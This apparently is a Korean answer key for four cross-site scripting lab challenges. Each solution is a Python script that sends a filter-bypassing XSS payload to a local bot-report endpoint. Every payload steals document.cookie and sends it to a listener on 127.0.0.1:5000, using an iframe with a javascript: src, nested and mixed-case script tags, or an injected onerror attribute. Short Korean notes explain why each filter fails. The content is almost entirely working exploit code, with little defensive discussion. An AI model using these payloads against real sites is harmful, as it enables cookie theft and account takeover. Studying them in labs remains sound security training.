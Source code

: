 # 2. XSS 모범답안

- Lack_of_Validation1
    
    ```python
    import requests
    
    payload = """
    <iframe src="javascript:
        window.open('http://127.0.0.1:5000/?'%2bdocument.cookie);
    ">
    """
    
    data = {
        "url":f"/?html={payload}"
    }
    
    response = requests.post("http://127.0.0.1:30031/report", data=data)
    print(response.text)
    ```
    
    - frame 종류들에 src를 javascript: scheme을 사용하면 상위 페이지에서 js가 작동하는 것으로 감지합니다.
    - on이 필터링되어 location.href 대신 [window.open](http://window.open) 함수를 이용하여 새 탭을 열어서 공격자 서버에 값을 전달할 수 있습니다.
- Inappropriate_Sanitize
    
    ```python
    import requests
    
    data = {
        "url":"""/?html=
        <scrscriptipt>
            window.open("http://127.0.0.1:5000/?"%2bdocument.cookie);
        </scrscriptipt>
        """
    }
    
    response = requests.post("http://127.0.0.1:30032/report", data=data)
    ```
    
- Lack_of_Validation2
    
    ```python
    import requests
    
    payload = """
    <Script>
        window.open("http://127.0.0.1:5000/?"%2bdocument.cookie);
    </scrIpt>
    """
    
    data = {
        "url":f"/?html={payload}"
    }
    
    response = requests.post("http://127.0.0.1:30033/report", data=data)
    print(response.text)
    ```
    
    - 대문자를 필터링하지 않아 html 태그는 대소문자 구분을 하지 않는 특성을 이용하여 우회할 수 있습니다.
- Safe_Renderer
    
    ```python
    import requests
    
    payload = """
    " onerror=location.href='http://127.0.0.1:5000/?'%2bdocument.cookie;
    """
    
    data = {
        "url":f"/image?url={payload}"
    }
    
    response = requests.post("http://127.0.0.1:30034/report", data=data)
    print(response.text)
    ```
    
    - 안전한 함수로 render_template을 사용하려고 했지만, render_template이 자동으로 따옴표를 생성하는 logic에 문제가 있어서 태그 안 attribute를 설정하려고 하면 문제가 생길 수 있습니다.